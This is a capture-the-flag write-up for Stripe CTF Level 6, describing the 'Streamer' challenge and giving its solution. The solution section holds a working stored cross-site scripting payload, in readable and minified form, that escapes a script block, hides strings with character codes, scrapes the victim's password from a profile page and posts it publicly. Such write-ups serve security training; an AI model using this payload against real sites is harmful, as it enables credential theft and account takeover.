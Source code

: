 ## Level 6

After Karma Trader from Level 4 was hit with massive karma inflation (purportedly due to someone flooding the market with massive quantities of karma), the site had to close its doors. All hope was not lost, however, since the technology was acquired by a real up-and-comer, Streamer. Streamer is the self-proclaimed most steamlined way of sharing updates with your friends. You can access your Streamer instance here: https://level06-1.stripe-ctf.com/user-xxxxxxxxxx.

The Streamer engineers, realizing that security holes had led to the demise of Karma Trader, have greatly beefed up the security of their application. Which is really too bad, because you've learned that the holder of the password to access Level 7, level07-password-holder, is the first Streamer user.

As well, level07-password-holder is taking a lot of precautions: his or her computer has no network access besides the Streamer server itself, and his or her password is a complicated mess, including quotes and apostrophes and the like.

Fortunately for you, the Streamer engineers have decided to open-source their application so that other people can run their own Streamer instances. You can obtain the source for Streamer at `git clone https://level06-1.stripe-ctf.com/user-xxxxxxxxxx/level06-code`. We've also included the most important files below.

### Running

- Install bundler: `gem install bundler`
- Run srv.rb: `./srv.rb`
- Point your browser to `localhost:4567`

### Solution

  * Unminified Version:
  
  ```javascript
  }];
  </script>
  <script>
    a = document.URL + String.fromCharCode(117, 115, 101, 114, 95, 105, 110, 102, 111); // 'user_info'
    b = String.fromCharCode(35, 99, 111, 110, 116, 101, 110, 116);                      // '#content'
    c = String.fromCharCode(35, 110, 101, 119, 95, 112, 111, 115, 116);                 // '#new_post'
    $.get(a, function(data) {
      var re = /<td>(.*)</g;
      re.lastIndex = 0;
      while (match = re.exec(data)) {
        password = match[1];
      }
      if (password) {
        $(b).val(escape(password));
        $(c).submit();
      }
    });
  </script>
  <script>
  ```

  * Minified Version:
  
  ```javascript
  }];</script><script>a=document.URL+String.fromCharCode(117,115,101,114,95,105,110,102,111);b=String.fromCharCode(35,99,111,110,116,101,110,116);c=String.fromCharCode(35,110,101,119,95,112,111,115,116);$.get(a,function(data){var re=/<td>(.*)<\/td>/g;re.lastIndex=0;while(match=re.exec(data)){password=match[1]}if(password){$(b).val(escape(password));$(c).submit()}});</script><script>
  ```

Originally posted at [https://stripe-ctf.com/levels/6](https://stripe-ctf.com/levels/6).
